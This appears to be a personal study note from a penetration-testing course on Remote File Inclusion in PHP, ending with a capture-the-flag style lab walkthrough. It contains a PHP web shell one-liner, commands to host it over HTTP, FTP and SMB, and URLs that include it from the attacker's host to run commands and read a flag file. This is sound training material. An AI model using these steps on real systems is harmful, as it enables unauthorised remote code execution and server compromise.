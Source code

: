 
# RFI
 >if the vulnerable function allows the inclusion of remote URLs. This allows two main benefits:
 >	1.  Enumerating local-only ports and web applications (i.e. SSRF)
 >	2.  Gaining remote code execution by including a malicious script that we host
 
 ---
## Local vs. Remote File Inclusion
>When a vulnerable function allows us to include remote files, we may be able to host a malicious script, and then include it in the vulnerable page to execute malicious functions and gain remote code execution. If we refer to the table on the first section, we see that the following are some of the functions that (if vulnerable) would allow RFI:

![[Pasted image 20230305181408.png]]
 However, an LFI may not necessarily be an RFI. This is primarily because of three reasons:

1.  The vulnerable function may not allow including remote URLs
2.  You may only control a portion of the filename and not the entire protocol wrapper (ex: `http://`, `ftp://`, `https://`).
3.  The configuration may prevent RFI altogether, as most modern web servers disable including remote files by default.

---
## Verify RFI
>any remote URL inclusion in PHP would require the `allow_url_include` setting to be enabled. We can check whether this setting is enabled through LFI

 a more reliable way to determine whether an LFI vulnerability is also vulnerable to RFI is to `try and include a URL`, and see if we can get its content. At first, `we should always start by trying to include a local URL` to ensure our attempt does not get blocked by a firewall or other security measures. So, let's use (`http://127.0.0.1:80/index.php`) as our input string and see if it gets included:
 `http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php`
 
---
## Remote Code Execution with RFI
The first step in gaining remote code execution is creating a malicious script in the language of the web application
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
Now, all we need to do is host this script and include it through the RFI vulnerability. It is a good idea to listen on a common HTTP port like `80` or `443`, as these ports may be whitelisted
Start webserver using python:
```bash
sudo python3 -m http.server <LISTENING_PORT>
```
Then access our file from the RFI
`http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id`
![[Pasted image 20230305182007.png]]

---
## FTP

we may also host our script through the FTP protocol. We can start a basic FTP server with Python's `pyftpdlib`, as follows:

```bash
sudo python -m pyftpdlib -p 21
```
`http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id`
![[Pasted image 20230305182130.png]]
If the server requires valid authentication, then the credentials can be specified in the URL, as follows:
```bash
curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
```

---
## SMB
>If the vulnerable web application is hosted on a Windows server (which we can tell from the server version in the HTTP response headers), then we do not need the `allow_url_include` setting to be enabled for RFI exploitation as we can utilize the SMB protocol for the remote file inclusion

spin up an SMB server using `Impacket's smbserver.py`, which allows anonymous authentication by default, as follows:
```bash
impacket-smbserver -smb2support share $(pwd)
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
`http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\shell.php&cmd=whoami`
![[Pasted image 20230305182340.png]]

---
## Exercise

>**Attack the target, gain command execution by exploiting the RFI vulnerability, and then look for the flag under one of the directories in /**

creating shell.php
`echo '<?php system($_GET["cmd"]); ?>' > shell.php`
![[Pasted image 20230305184441.png]]

start http server
`sudo python3 -m http.server 80`
![[Pasted image 20230305184210.png]]
then test if we have RFI using `http://` 
![[Pasted image 20230305184158.png]]
`http://10.129.29.114/index.php?language=http://10.10.16.19/shell.php&cmd=id`
![[Pasted image 20230305184521.png]]

under /exercise we found the flag
`http://10.129.29.114/index.php?language=http://10.10.16.19/shell.php&cmd=ls%20/exercise`
![[Pasted image 20230305184615.png]]
`http://10.129.29.114/index.php?language=http://10.10.16.19/shell.php&cmd=cat%20/exercise/flag.txt`
![[Pasted image 20230305184638.png]]
